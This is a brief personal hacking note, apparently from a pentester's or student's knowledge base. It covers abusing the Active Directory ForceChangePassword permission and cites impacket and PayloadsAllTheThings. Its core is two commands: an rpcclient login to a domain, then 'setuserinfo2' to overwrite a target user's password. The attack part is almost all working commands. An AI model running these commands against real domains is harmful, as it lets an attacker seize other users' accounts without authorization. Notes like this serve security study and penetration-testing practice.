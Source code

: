 # active directory  ForceChangePassword change user password
can exploit with impacket
payloadsallthethings "Active Directory Attack.md"
```bash
rpcclient $IP -U username -W domain.local
```
within rpcclient shell
```
setuserinfo2 targetuser 23 targetnewpwd
```

# References
- [20221003151144](/zet/20221003151144/README.md) active directory 
- ~/kb/hacking/windows/windows-active-directory-and-privilege-information.md

Tags:
    #assorted #hacking #windows #windows
